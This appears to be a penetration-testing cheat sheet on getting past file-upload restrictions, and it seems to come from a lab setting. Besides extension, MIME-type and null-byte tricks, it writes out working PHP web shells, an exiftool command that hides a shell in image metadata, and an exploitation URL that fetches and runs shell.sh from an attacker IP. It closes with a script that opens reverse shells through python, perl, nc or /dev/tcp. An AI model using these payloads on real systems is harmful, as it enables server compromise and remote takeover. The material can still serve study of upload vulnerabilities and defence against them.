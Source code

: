 # File upload bypass
According to OWASP the following list can be used by penetration testers in order to bypass a variety of protections.
- Content-Type —>Change the parameter in the request header using Burp, ZAP etc.
- Put server executable extensions like file.php5, file.shtml, file.asa, file.cert
- Changing letters to capital form file.aSp or file.PHp3
- Using trailing spaces and/or dots at the end of the filename like file.asp… … . . .. .. , file.asp , file.asp.
- Use of semicolon after the forbidden extension and before the permitted extension example: file.asp;.jpg (Only in IIS 6 or prior)
- Upload a file with 2 extensions—> file.php.jpg
- Use of null character—> file.asp%00.jpg
- Create a file with a forbidden extension —> file.asp:.jpg or file.asp::$data
- Combination of the above
## Bypassing Blacklists
Blacklisting is a type of protection where certain strings of data, in many cases, specific extensions, are explicitly prohibited from being sent to the web app server.
| Type       | Extention                                                       |
|------------|-----------------------------------------------------------------|
| php        | phtml, .php, .php3, .php4, .php5, .php6, .pht, .pHp, .Php, .phP |
| asp        | asp, .aspx                                                      |
| perl       | .pl, .pm, .cgi, .lib                                            |
| jsp        | .jsp, .jspx, .jsw, .jsv, and .jspf                              |
| Coldfusion | .cfm, .cfml, .cfc, .dbm                                         |

Create **shell.pHp**
```php
<?php system($_GET['c']); ?>
```
## Bypassing Whitelists
Using a reverse shell with a photo extension
```console
payload.php.jpg
```
Also using a *null character* injection we can bypass whitelist filters to make characters get ignored when the file is saved, injecting this between a forbidden extension and an allowed extension can lead to a bypass:
```console
payload.php%00.jpg OR payload.php\x00.jpg
```
Usually, if an whitelist accepts only images, it may also accept gif files too. Adding GIF89a; to the very top of your shell may help you bypass the restriction and let you execute the shell.
```console
GIF89a; <?php system($_GET['cmd']); ?>
```
## MIME Type
Blacklisting MIME types is also a method of file upload validation. It may be bypassed by intercepting the POST request on the way to the server and modifying the MIME type.
Normal php MIME type:
```console
Content-type: application/x-php
```
Replace with:
```console
Content-type: image/jpeg
```
## Exif Data, ExifTool (PHP getimagesize())
For file uploads which validate image size using php **getimagesize()**, it may be possible to execute shellcode by inserting it into the Comment attribute of Image properties and saving it as file.jpg.php.
```console
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpg
mv file.jpg file.php.jpg
```
## Exploitation
```console
http://10.10.10.185/images/uploads/3.php.png?cmd=wget -O - http://10.10.16.5:1234/shell.sh | bash
```
 *don't forget to use burp to encode "wget -O - http://10.10.16.5:1234/shell.sh | bash"*
```console
http://10.10.10.185/images/uploads/3.php.png?cmd=%77%67%65%74%20%2d%4f%20%2d%20%68%74%74%70%3a%2f%2f%31%30%2e%31%30%2e%31%36%2e%35%3a%31%32%33%34%2f%73%68%65%6c%6c%2e%73%68%20%7c%20%62%61%73%68
```
Create file *shell.sh*
```console
if command -v python > /dev/null 2>&1; then
        python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.16.5",5555)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
        exit;
fi
if command -v perl > /dev/null 2>&1; then
        perl -e 'use Socket;$i="10.10.16.5";$p=5555;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
        exit;
fi
if command -v nc > /dev/null 2>&1; then
        rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.5 5555 >/tmp/f
        exit;
fi
if command -v sh > /dev/null 2>&1; then
        /bin/sh -i >& /dev/tcp/10.10.16.5/5555 0>&1
        exit;
fi
```
 *You can create a shell.sh file and do the same as above, or you can also manually try **reverse shell commands** one by one.*
